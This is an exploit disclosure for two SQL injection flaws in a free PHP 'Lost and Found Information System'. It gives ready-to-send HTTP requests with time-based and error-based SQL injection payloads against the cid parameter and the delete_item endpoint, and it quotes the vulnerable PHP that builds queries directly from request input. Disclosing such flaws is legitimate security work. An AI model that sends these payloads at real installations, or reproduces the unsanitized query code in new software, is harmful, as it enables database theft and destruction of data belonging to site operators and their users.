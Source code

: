 ### Exploit Title: Lost and Found Information System - Multiple SQL injections
### Date: 2023-05/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html
### Version: 1.0
### Tested on: macOs 13.3.1 (a) + phpstudy


# 1./admin/lab.php
/?page=items&cid=1 SQL injection exists for parameter Section

### Sample request POC #1

```
GET /?page=items&cid=' AND (SELECT 8856 FROM (SELECT(SLEEP(5)))RZAm) AND 'XJUv'='XJUv HTTP/1.1
Host: [IP:PORT]
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/raw/main/imgs/1683787465919.jpg "Lost and Found Information System - Multiple SQL injections")

### Related Codes ./php-lfis/items/index.php
```
<?php 
if(isset($_GET['cid'])){
    $category_qry = $conn->query("SELECT * FROM `category_list` where `id` = '{$_GET['cid']}'");
    if($category_qry->num_rows > 0){
        foreach($category_qry->fetch_assoc() as $k => $v){
            $cat[$k] = $v; 
        }
    }
}
?>
...
```


# 2./classes/Master.php?f=delete_item
### Sample request POC #2

```
POST /classes/Master.php?f=delete_item HTTP/1.1
Host: 10.211.55.3:8001
Content-Length: 221
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBKXTUMQFid7ol6Ro
Origin: http://10.211.55.3:8001
Referer: http://10.211.55.3:8001/?page=found
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryBKXTUMQFid7ol6Ro
Content-Disposition: form-data; name="id"

' AND GTID_SUBSET(CONCAT(0x717a6a7071,(SELECT (ELT(8125=8125,1))),0x71707a7071),8125)-- jKyA
------WebKitFormBoundaryBKXTUMQFid7ol6Ro
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/raw/main/imgs/1683788337596.jpg "Lost and Found Information System - Multiple SQL injections")

### Related Codes ./php-lfis/classes/Master.php
```
...
function delete_item(){
	extract($_POST);
	$del = $this->conn->query("DELETE FROM `item_list` where id = '{$id}'");
	if($del){
		$resp['status'] = 'success';
		$this->settings->set_flashdata('success'," Item Data successfully deleted.");
	}else{
		$resp['status'] = 'failed';
		$resp['error'] = $this->conn->error;
	}
	return json_encode($resp);

}
...
```
